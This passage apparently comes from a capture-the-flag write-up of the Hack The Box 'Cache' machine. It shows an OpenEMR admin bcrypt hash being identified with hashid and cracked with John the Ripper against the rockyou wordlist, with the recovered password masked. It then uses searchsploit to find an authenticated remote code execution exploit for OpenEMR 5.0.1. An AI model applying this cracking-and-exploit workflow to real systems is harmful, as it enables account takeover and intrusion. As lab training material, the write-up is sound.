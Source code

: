 Great! We have a username and its hash `openemr_admin:$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.`, let's crack it using john.

### Cracking hashes

Before cracking the hash let's check it's format using `hashid`

```shell
cfx:  ~/Documents/htb/cache
→ hashid -j '$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.'
Analyzing '$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.'
[+] Blowfish(OpenBSD) [JtR Format: bcrypt]
[+] Woltlab Burning Board 4.x
[+] bcrypt [JtR Format: bcrypt]
```
Hash Format for John is `bcrypt`

```shell
cfx:  ~/Documents/htb/cache
→ cat openemr_admin.hash
openemr_admin:$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.
```

```shell
cfx:  ~/Documents/htb/cache
→ john --format=bcrypt -w=/usr/share/wordlists/rockyou.txt openemr_admin.hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE 2/3 (2020-10-14 16:40) 1.666g/s 1920p/s 1920c/s 1920C/s water..88888888
Use the "--show" option to display all of the cracked passwords reliably
Session completed

cfx:  ~/Documents/htb/cache
→ john --show openemr_admin.hash
openemr_admin:xxxxxx

1 password hash cracked, 0 left
```
So we have credentials for OpenEMR as `openemr_admin:xxxxxx`

## OpenEMR - RCE

With `searchsploit` I was able to see an Authenticated RCE exploit for our version:

```shell
cfx:  ~/Documents/htb/cache
→ searchsploit openemr 5.0.1
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
[..SNIP..]

OpenEMR < 5.0.1 - (Authenticated) Remote Code Execution                                                                                                     | php/webapps/45161.py
------------------------------------------------------------------------------------------------------------------------------------------------------------ --------------------------------
```
